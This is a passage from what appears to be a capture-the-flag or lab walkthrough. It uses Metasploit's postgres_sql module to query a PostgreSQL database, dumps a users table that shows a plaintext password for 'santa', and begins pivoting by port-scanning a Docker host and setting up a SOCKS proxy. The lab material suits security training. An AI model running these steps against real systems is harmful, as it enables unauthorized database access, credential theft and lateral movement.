 > has username column

- `use auxiliary/admin/postgres/postgres_sql`
- set rhosts and database = "postgres"
- `exploit`:

```console
[*] Running module against 172.28.101.51

Query Text: 'select version()'
==============================

    version
    -------
    PostgreSQL 10.5 on x86_64-pc-linux-musl, compiled by gcc (Alpine 6.4.0) 6.4.0, 64-bit

[*] Auxiliary module execution completed
```

> we can run a custom query against the DB

- `set sql "select * from users"`
- `run`:

```console
[*] Running module against 172.28.101.51

Query Text: 'select * from users'
=================================

    id  username  password  created_at                  deleted_at
    --  --------  --------  ----------                  ----------
    1   santa     p4$$w0rd  2022-09-13 19:39:51.669279  NIL

[*] Auxiliary module execution completed
```

> we got santa's credentials  
> ... ssh maybe?  
> ... docker host maybe?  

## Scan the docker host

### Either with metasploit
{: .no_toc}

- `search portscan`
- `use auxiliary/scanner/portscan/tcp`
- `set rhosts 172.17.0.1` and `run` - 22 & 80 open

### Or use SOCKS Proxy
{: .no_toc}

- `search socks` & `use 1` & `exploit`
